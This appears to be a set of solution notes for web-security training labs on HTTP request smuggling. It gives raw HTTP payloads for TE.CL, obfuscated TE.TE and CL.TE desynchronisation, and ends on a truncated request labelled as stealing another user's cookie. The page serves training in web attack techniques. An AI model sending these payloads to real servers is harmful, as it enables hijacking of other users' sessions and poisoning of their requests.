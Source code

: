### 2. Use unsupported Method GPOST (TE.CL)
```
POST / HTTP/1.1
Host: 0a4d007b048d4832c0afb01800b700ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### 3. Obfuscating TE.TE
```
POST / HTTP/1.1
Host: 0a8800ee047d6d24c0c255e700a6009c.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: xchunked
Content-Length: 4

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### 4. Detecting CL.TE
```
POST / HTTP/1.1
Host: 0a6f00870409bd9bc05054ca00c900d9.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

### 5. Get other user's request to steal cookie
```
POST / HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 357
tRANSFER-ENCODING: chunked

0

POST /post/comment HTTP/1.1
```